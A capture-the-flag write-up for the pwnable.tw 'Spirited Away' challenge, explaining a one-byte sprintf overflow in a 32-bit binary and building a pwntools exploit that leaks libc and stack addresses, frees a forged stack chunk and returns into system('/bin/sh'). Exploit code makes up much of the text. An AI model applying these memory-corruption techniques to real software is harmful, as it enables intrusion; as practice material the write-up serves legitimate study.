








# pwnable.tw - Spirited Away

Original challenge link: https://pwnable.tw/challenge/#22

You can as well download challenge files in my repo: [spirited_away.zip](spirited_away.zip)

There will be 2 files in zip:
- spirited_away
- libc_32.so.6

Download and extract, then pwninit to patch libc to binary and we can get started!

# 1. Find bug

First, let's check the basic information of binary:

```bash
$ file spirited_away
spirited_away: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=9e6cd4dbfea6557127f3e9a8d90e2fe46b21f842, not stripped

$ checksec spirited_away
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

This is a 32-bit file without being stripped. Next, we will decompile the file with ghidra to get the main flow of program. The main function just puts() data and then jump to function `survey()`. In `survey()`, the program asks from user input for name, age, reason and comment. Those input function seems secure so we cannot get any advantage from that:



After reading input, it then sprint a string to a variable on stack with argument is global variable `cnt`:



Finding the length of that string without `%d` (including space too), we know its length is 54:

```python
>>> len(" comment so far. We will review them as soon as we can")
54
```

But the size for that variable is just 56. Looking down to the check of global variable `cnt`, we know that the maximum byte of `cnt` is 3:



So if we add the length of string above, 54, add with 3, length of `cnt`, have result is 57, larger than size of `local_ec` just 56. Hence, 1 byte of the string above, particularly the character `n` at the end, will overwrite the value of variable `size_3c` with byte `n`, in hex format is `0x6e`. As a result, we have a **Buffer Overflow** here.

# 2. Idea

With the **Buffer Overflow** bug we found, we can write more when we input `name` or when we input `comment`. However, `name` is just a chunk created by malloc so overwriting it will not help us exploit this, while overwrite variables below `command` might be helpful.

The image with variables order above will give us hint that we should overwrite the pointer `name` with a fake chunk we want so that we can write data to where we want. The idea is to create a fake chunk inside the variable `auStack84` and overwrite `name` with this fake chunk so that we can overwrite the saved eip when we input name the next time.

And of course, we need to leak libc and stack if we want to do that.

Summary:
- Stage 1: Leak libc address
- Stage 2: Leak stack address
- Stage 3: Fake chunk & Get shell

# 3. Exploit

Before we start our exploit, I wrote these 2 functions for shorter commands of sendafter and sendlineafter:

```python
def sa(msg, data):
    p.sendafter(msg, data)

def sla(msg, data):
    p.sendlineafter(msg, data)
```

### Stage 1: Leak libc address

Because the program use `read()` to read input so no null byte will be added at the end of string. With the function `printf()`, it just stop printing data at null byte so if out input next to and address, that address will be printed out too. Hence, we got address leaked.

After several attempts of trying getting the libc leak, I end up with this code which use the same offset as server to calculate the libc base address from the leak address:

```python
sa(b'name: ', b'A')
sla(b'age: ', b'A')             # So that we won't need to enter age
sa(b'movie? ', b'A'*0x35)
sa(b'ment: ', b'A')

p.recvuntil(b'Reason: ')
p.recv(0x34)
libc.address = u32(p.recv(4)) - 0x1b0000 - ord('A')
log.info("Libc base: " + hex(libc.address))

sa(b'<y/n>: ', b'y')
```

You could try leaking different libc address but the offset will not `0x1b0000` and offset for local will be different from offset for server so you will need to bruteforce that. Do you notice the line `sla(b'age: ', b'A')`? I want to disable the function `scanf()` so inputing data will not get wrong when the program `read()` (You will know why I do that at stage 3).

This is before we input data:



And this is after we input data:



As I said above, printf will stop printing at null byte so we need to change that null byte to a not-null byte. After that, we get the libc base address:


Because I'm running without ASLR so the address of libc and ld might be in a different format. You can try with command `python3 <python-script-here> NOASLR`

### Stage 2: Leak stack address

This stage is just similar as the first stage. The stack address is right after the libc address above so we just simply get it with this code:

```python
sa(b'name: ', b'A')
sa(b'movie? ', b'A'*0x38)
sa(b'ment: ', b'A')

p.recvuntil(b'Reason: ')
p.recv(0x38)
stack_leak = u32(p.recv(4))
log.info("Stack leak: " + hex(stack_leak))

sa(b'<y/n>: ', b'y')
```

And we get the stack leak:



### Stage 3: Fake chunk & Get shell

Now, we want to make value of `cnt` to 100 so that it will cost 3 bytes and we can overwrite the value of `size_3c` with value `0x6e`. We want to make it fast so sending data in one time for each loop will save time:

```python
for i in range(98):
    sa(b'name: ', b'A'*0x3c + b'B'*0x50 + b'C'*0x3c + b'yyy')
```

Suppose we've done that, the value of `size_3c` is now `0x6e`, we will create a fake chunk inside `auStack84` first:

```python
sa(b'name: ', b'A'*0x3c)
payload = flat(
    b'B'*0x8,
    0, 0x41, 0, 0,
    0, 0, 0, 0,
    0, 0, 0, 0,
    0, 0, 0, 0,
    0, 0x10001,
    )
sa(b'movie? ', payload)
```

Because `free()` will check for the size of next chunk, we need to add the size for fake next chunk too. Now we will need to calculate the address of this fake chunk so let's attach gdb and find the distance between the leak address and address of this fake chunk:


The highlighted area is our fake chunk and the value `0x10001` below is the size for fake next chunk. So we know the address for fake chunk is `0xffffcf98` and the stack address leak above in stage 2 is `0xffffcff8`. The offset can be calculated as follows:

```python
>>> 0xffffcff8 - 0xffffcf98
0x60
```

So let's change the pointer `name` to the address of our fake chunk now:

```python
payload = flat(
    b'C'*0x54,
    stack_leak - 0x60,
    )
sa(b'ment: ', payload)
sa(b'<y/n>: ', b'yyy')
```

This is before we overwrite `name`:



This is after we overwrite `name`:



So now when the program free our fake chunk, no error occurs. When the program jump back and ask us again, just enter our payload and we get shell:

```python
payload = flat(
    b'A'*0x44,                        # Padding
    libc.sym['system'],
    b'BBBB',                          # Fake eip
    next(libc.search(b'/bin/sh')),    # Arg1
    0,                                # Arg2
    0,                                # Arg3
    )
sa(b'name: ', payload)
sa(b'movie? ', b'B')
sa(b'ment: ', b'C')
sa(b'<y/n>: ', b'nnn')
```

Execute script and we can get shell now.

Full script: [solve.py](solve.py)